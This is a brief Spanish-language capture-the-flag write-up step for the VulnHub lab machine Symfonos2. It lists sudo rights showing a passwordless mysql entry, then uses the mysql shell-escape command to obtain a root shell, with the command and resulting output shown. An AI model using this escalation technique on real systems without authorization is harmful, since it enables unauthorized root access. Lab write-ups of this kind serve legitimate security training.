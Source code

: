 ### Escalada de Privilegios (Symfonos2)

* * *

Listando privilegios de sudo vemos que tenemos capacidad de ejecutar binario `mysql` como sudo. Una consulta a [GTFObins](https://gtfobins.github.io/gtfobins/mysql/) nos revela cómo elevar los privilegios

```ruby
cronus@symfonos2:/opt/librenms/html$ sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
cronus@symfonos2:/opt/librenms/html$ sudo mysql -e '\! /bin/sh'
# id
uid=0(root) gid=0(root) groups=0(root)
```

Hemos completado la máquina **Symfonos2** de VulnHub!! Happy Hacking!!